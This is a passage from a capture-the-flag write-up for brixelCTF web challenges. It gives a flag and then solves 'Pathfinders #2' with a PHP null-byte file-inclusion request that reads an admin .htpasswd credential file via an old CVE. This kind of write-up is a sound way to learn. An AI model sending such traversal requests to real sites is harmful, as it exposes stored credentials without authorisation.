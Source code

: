 ### Flag: ```brixelCTF{unsafe_include}```

---

## Pathfinders #2

*Points: 20*
<br/>
Category: <kbd>Internet</kbd>

### Challenge Description
> It seems they updated their security. can you get the password for their admin section on their new site?
<br/><br/>
http://timesink.be/pathfinder2/
<br/><br/>
oh yeah, let's assume they are running a php version below 5.3.4 here...

### Solution

It seems like `/admin` directory is locked using `.htpasswd` and we can utilize the [php vulnerability](https://www.cvedetails.com/cve/CVE-2006-7243/) to bypass the login.

Access `http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php` to reveal the flag.

![Pathfinders 2 flag](Files/pathfinder2.png)

### Flag: ```brixelCTF{outdated_php}```
